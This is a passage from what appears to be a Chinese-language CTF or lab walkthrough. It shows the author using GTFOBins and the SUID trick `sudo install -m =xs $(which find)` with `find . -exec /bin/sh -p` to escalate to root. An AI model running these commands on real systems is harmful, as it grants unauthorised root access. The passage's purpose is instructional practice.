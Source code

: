 测试`sudo -l`可用吗，发现不被允许的

![](./pic-dobby/25.jpg)

对于上面的命令，可以借助网站`gtfobins.github.io`查看提权方式

```shell
sudo install -m =xs $(which find) .

./find . -exec /bin/sh -p \; -quit
```

![](./pic-dobby/26.jpg)

## 垂直提权root

然后在shell中使用`/usr/bin/find . -exec /bin/sh -p \; -quit`，提权成功

![](./pic-dobby/27.jpg)
